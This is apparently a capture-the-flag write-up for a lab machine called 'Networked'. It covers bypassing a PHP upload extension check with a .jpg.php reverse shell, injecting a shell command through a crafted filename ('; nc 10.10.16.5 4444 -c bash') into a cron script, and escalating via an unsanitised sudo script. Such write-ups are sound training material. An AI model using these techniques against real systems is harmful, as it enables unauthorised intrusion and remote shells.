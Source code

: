 # Networked

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### File Upload RCE

First, we can use `gobuster` on the website:

<figure><img src="../../../.gitbook/assets/image (24) (2) (1).png" alt=""><figcaption></figcaption></figure>

The `/backup` directory would show us a directory with a backup file:

<figure><img src="../../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

Within the backup file, there's this PHP code here:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

In short, we can see that this file checks for the file extensions before accepting a file. Seeing that this is a PHP file, we can attempt to upload a PHP reverse shell. To bypass the extension check, notice how it uses `substr_compare` and verifies whether a valid extension is present. As such, we can create a file ending in `.jpg.php` to bypass this:

<figure><img src="../../../.gitbook/assets/image (77) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can upload it to `upload.php`. We can visit `photos.php` to trigger the shell:

<figure><img src="../../../.gitbook/assets/image (4) (1) (5) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (168) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Guly

Within the machine, we can view the user `guly` directory:

<figure><img src="../../../.gitbook/assets/image (154) (4).png" alt=""><figcaption></figcaption></figure>

The crontab specifies that the user is running the `check_attack` script routinely.

<figure><img src="../../../.gitbook/assets/image (169) (2).png" alt=""><figcaption></figcaption></figure>

One dangerous part of this script is the usage of `exec` to run stuff. The `$value` variable is not sanitised, and we can exploit this by creating a file with the name of `; nc 10.10.16.5 4444 -c bash` within the `/var/www/html/uploads` directory. After doing this and waiting, we would gain a reverse shell and can capture the user flag:

<figure><img src="../../../.gitbook/assets/image (28) (2) (4).png" alt=""><figcaption></figcaption></figure>

### To Root

We can check the `sudo` privileges of this user and find that there's one script we can run as `root`.

<figure><img src="../../../.gitbook/assets/image (58) (4) (1).png" alt=""><figcaption></figcaption></figure>

Here's the script's contents:

<figure><img src="../../../.gitbook/assets/image (56) (2) (3).png" alt=""><figcaption></figcaption></figure>

This takes user input and executes does not sanitise it at all. When we run the script, we can actually execute commands:

<figure><img src="../../../.gitbook/assets/image (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, we just need to run `/bin/bash`:

<figure><img src="../../../.gitbook/assets/image (23) (2) (4) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
